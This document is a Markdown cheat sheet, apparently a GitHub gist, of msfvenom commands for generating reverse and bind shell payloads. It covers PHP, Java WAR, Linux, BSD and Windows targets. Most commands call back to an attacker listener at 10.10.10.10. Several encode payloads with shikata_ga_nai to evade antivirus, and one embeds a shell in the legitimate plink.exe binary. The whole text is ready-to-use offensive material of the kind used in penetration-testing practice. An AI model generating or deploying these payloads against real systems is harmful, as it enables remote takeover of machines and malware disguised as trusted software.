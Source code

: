 https://gist.githubusercontent.com/dejisec/8cdc3398610d1a0a91d01c9e1fb02ea1/raw/c8eb10b796cdaf29d5eb67469b4cdd99ddb96560/msf_pay.md

- [PHP Reverse Shell](#php-reverse-shell)
- [Java WAR Reverse Shell](#java-war-reverse-shell)
- [Linux](#linux)
	- [Linux Bind Shell](#linux-bind-shell)
	- [Linux FreeBSD Reverse Shell](#linux-freebsd-reverse-shell)
	- [Linux C Reverse Shell](#linux-c-reverse-shell)
- [Windows](#windows)
	- [Windows Non Staged Reverse Shell](#windows-non-staged-reverse-shell)
	- [Windows Staged (Meterpreter) Reverse Shell](#windows-staged-meterpreter-reverse-shell)
	- [Windows Python Reverse Shell](#windows-python-reverse-shell)
	- [Windows ASP Reverse Shell](#windows-asp-reverse-shell)
	- [Windows ASPX Reverse Shell](#windows-aspx-reverse-shell)
	- [Windows JavaScript Reverse Shell With NOPS](#windows-javascript-reverse-shell-with-nops)
	- [Windows Powershell Reverse Shell](#windows-powershell-reverse-shell)
	- [Windows Reverse Shell Excluding Bad Characters](#windows-reverse-shell-excluding-bad-characters)
	- [Windows x64 bit Reverse Shell](#windows-x64-bit-reverse-shell)
	- [Windows Reverse Shell Embedded into Plink](#windows-reverse-shell-embedded-into-plink)

## [PHP Reverse Shell](#php-reverse-shell-1)
```sh
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f raw -o shell.php
```

## [Java WAR Reverse Shell](#java-war-reverse-shell-1)
```sh
msfvenom -p java/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f war -o shell.war
```

# [Linux](#linux-1)

## [Linux Bind Shell](#linux-bind-shell-1)
```sh
msfvenom -p linux/x86/shell_bind_tcp LPORT=4443 -f c -b "\x00\x0a\x0d\x20" -e x86/shikata_ga_nai
```

## [Linux FreeBSD Reverse Shell](#linux-freebsd-reverse-shell-1)
```sh
msfvenom -p bsd/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f elf -o shell.elf
```

## [Linux C Reverse Shell](#linux-c-reverse-shell-1)
```sh
msfvenom  -p linux/x86/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f c
```

# [Windows](#windows-1)

## [Windows Non Staged Reverse Shell](#windows-non-staged-reverse-shell-1)
```sh
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f exe -o non_staged.exe
```

## [Windows Staged (Meterpreter) Reverse Shell](#windows-staged-meterpreter-reverse-shell-1)
```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f exe -o meterpreter.exe
```

## [Windows Python Reverse Shell](#windows-python-reverse-shell-1)
```sh
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 EXITFUNC=thread -f python -o shell.py
```

## [Windows ASP Reverse Shell](#windows-asp-reverse-shell-1)
```sh
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f asp -e x86/shikata_ga_nai -o shell.asp
```

## [Windows ASPX Reverse Shell](#windows-aspx-reverse-shell-1)
```sh
msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -o shell.aspx
```

## [Windows JavaScript Reverse Shell With NOPS](#windows-javascript-reverse-shell-with-nops-1)
```sh
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f js_le -e generic/none -n 18
```

## [Windows Powershell Reverse Shell](#windows-powershell-reverse-shell-1)
```sh
msfvenom -p windows/x64/powershell_reverse_tcp lhost=10.1.1.1 lport=444 -f psh -o r444.ps1
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -i 9 -f psh -o shell.ps1
```

## [Windows Reverse Shell Excluding Bad Characters](#windows-reverse-shell-excluding-bad-characters-1)
```sh
msfvenom -p windows/shell_reverse_tcp -a x86 LHOST=10.10.10.10 LPORT=4443 EXITFUNC=thread -f c -b "\x00\x04" -e x86/shikata_ga_nai
```

## [Windows x64 bit Reverse Shell](#windows-x64-bit-reverse-shell-1)
```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f exe -o shell.exe
```

## [Windows Reverse Shell Embedded into Plink](#windows-reverse-shell-embedded-into-plink-1)
```sh
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe
```